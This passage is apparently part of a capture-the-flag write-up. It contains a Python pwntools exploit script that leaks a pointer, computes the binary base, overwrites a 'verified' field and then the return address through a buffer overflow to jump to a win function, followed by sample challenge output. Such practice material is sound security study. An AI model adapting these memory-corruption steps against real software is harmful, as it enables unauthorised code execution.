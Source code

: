 ```python
    p.send(b'C'*16)
    
    print(p.recvuntil(b'[Specialty]: ' + b'C'*16))
    leak = u64(p.recvline().strip().ljust(8, b'\x00'))
    print('[+] leak             : ' + hex(leak))

    binary.address = leak - binary.symbols.__libc_csu_init

    print('[+] binary base      : ' + hex(binary.address))
    print('[+] @win             : ' + hex(binary.symbols.contract))

    print('[*] setting specialty')
    p.recvuntil(b'Specialty\n\n> ')
    p.sendline(b'4')

    print(p.recvuntil(b'you good at: ').decode())
    off_to_verified = 28
    off_to_self = off_to_verified + 4
    
    p.sendline(b'O'*off_to_verified + p32(-100, signed=True) + b'\xf0') # override `verified`
                                                # so we can continue to modify fields
                                                # (and trigger the BOF as well !)
                                                # we should set it to 0 when we 
                                                # are ready to exploit

    # landed, now enumerate
    offset = 0
    while offset < 0x128:
        ret = try_override_verified(offset)
        if ret != None:
            base, offset = ret
            break
        offset += 4

    off_to_ret = 0x118-(offset+OFF_VERIFIED_TO_RET)
    rebased_lsb = 0xf0-(0x118-(offset+OFF_VERIFIED_TO_RET))
    print(f'[?] return address is {off_to_ret} far from `specialization` field')
    print('[+] setting pointer LSB to', hex(rebased_lsb))
    
    input('[Type ENTER to rebase pointer]')
    p.sendline(b'no')
    #p.interactive()
    rebase_pointer_lsb(offset, rebased_lsb)
    print('[+] pointer rebased ! overwriting return address from `specialization` field')

    input('[Type ENTER to overwrite return address]')
    p.sendline(b'4')
    p.sendline(p64(binary.symbols.contract))
    
    p.sendline(b'Yes')

    p.interactive()
```


[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!